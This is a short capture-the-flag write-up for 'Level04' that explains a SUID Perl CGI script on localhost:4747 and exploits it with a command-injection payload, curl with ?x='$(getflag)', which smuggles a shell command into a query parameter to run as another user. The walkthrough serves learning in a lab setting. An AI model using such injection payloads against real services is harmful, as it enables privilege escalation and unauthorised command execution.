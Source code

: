 # Level04
## Step by step
### 1. Locate the Perl script in `level04` home directory
  ```bash
  > ls -la
  -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
  ```
The `level04.pl` file is a Perl script with the **SUID** bit set, meaning it will execute with the privileges of its owner (`flag04`).

---

### 2. Understand the script functionality
The script is a CGI program that listens on `localhost:4747` and processes a query string parameter `x`. It executes the parameter as the owner of the file (`flag04`).

---

### 3. Exploit the script using `curl`
To exploit this behavior, send a request to `localhost:4747` with a query string `x` that executes the `getflag` command:

  ``` bash
  > curl http://localhost:4747/?x='$(getflag)'
  Check flag.Here is your token : XXX
  ```
